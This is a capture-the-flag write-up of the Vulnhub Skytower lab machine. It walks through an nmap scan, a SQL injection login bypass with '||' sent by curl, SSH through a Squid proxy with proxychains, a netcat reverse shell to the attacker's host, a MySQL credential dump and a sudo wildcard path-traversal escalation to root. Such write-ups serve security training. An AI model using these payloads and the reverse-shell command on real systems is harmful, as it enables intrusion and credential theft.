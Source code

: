 ﻿## Skytower Writeup
 
Todays it's Skytower by Telspace which you can find over at Vulnhub, https://www.vulnhub.com/entry/skytower-1,96/

So we start with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Ok then so a Squid, a webserver, and ssh. Checking out the website we see a Skytech Login form.

![](pics/1.PNG)

So try admin' in the input box and it  shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual ' OR 1=1# and get nothing. Checking the error message again it seems like OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
So we replace the OR with || instead and it works we get logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```

![](pics/2.PNG)

OK then we have some creds for the ssh that's behind this proxy. So we setup our /etc/proxychains.conf to use the http proxy on port 3128  then we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run a command over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. So William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome so let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
So that was pretty fun, thanks a bunch @telspacesystems and @VulnHub for the challenges.
 

